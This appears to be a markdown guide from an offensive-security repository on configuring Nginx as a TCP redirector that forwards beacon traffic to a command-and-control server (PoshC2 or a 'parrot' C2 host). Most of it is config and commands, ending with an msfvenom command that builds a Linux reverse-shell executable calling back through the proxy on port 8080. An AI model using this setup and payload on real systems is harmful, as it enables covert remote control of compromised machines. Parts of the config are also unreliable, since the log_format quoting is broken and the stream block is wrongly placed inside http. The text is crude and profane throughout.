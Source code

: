 # Setting up Nginx for TCP proxy 

1. First off this shit is stupid, nginx only knows how to deal with HTTP traffig and beacon traffic can sometimes be encrypted by defualt making it hard for Nginx to deal with. There for we are going to have to not only set up our `proxy_reverse` but also configure TCP on the server if we want COMs to work all the way with out the use of ssl certs
2. To start lests install Nginx
    ```bash
    sudo apt install nginx 
    ```
3. Now lets modify our config file which might no exist 
    ```bash 
    sudo vim /etc/nginx/conf.d/lp_proxy.conf
    ```
4. Paste the follwing in `lp_proxy.conf`
    ```nginx
    server {
        listen 80;
        listen [::]:80;

        server_name <serverIP-OR-ServerDNSname>;

        location / {
            proxy_pass http://<parrot-c2-ip>;
        }
    }
    ```
4. Now lets add the TCP rules to allow us to handle the beacons
    ```bash
    sudo vim /etc/nginx/nginx.conf
    ```
5. Paste the following under `http {}`
    ```nginx
    stream {
        log_format posh '$remote_addr [$time_local] '
        '$protocol $status $bytes_sent $bytes_received '
        'session_time "$upstream_addr" "
        '"'$upstream_bytes_sent" "$upstream_bytes_received" "$upstream_connect _time"';
    
        server {
            listen 8080;

            proxy_pass http://<Parrot-IP>;

            access_log /var/log/nginx/tcp_access.log;
            error_log /var/log/nginx/tcp_error.log;

        }


    }
    ```
5. Now lets reload Nginx with the new conf figles 
    ```bash 
    sudo nginx -s reload
    ```
    or 
    ```bash 
    sudo systemctl restart nginx.service
    ```
6. From here we can now create a msfvenom shell or poshc2 with the correct ports set in the TCP section in the example we have `8080` 
    ```bash
   msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.178.132 LPORT=8080 -a x64 -f elf > yup.elf
    ```
    > NOTE: Follow the same setup if you are using poshc2 for you bind port, probably 
7. tada you have a beacon shelly, fuck you.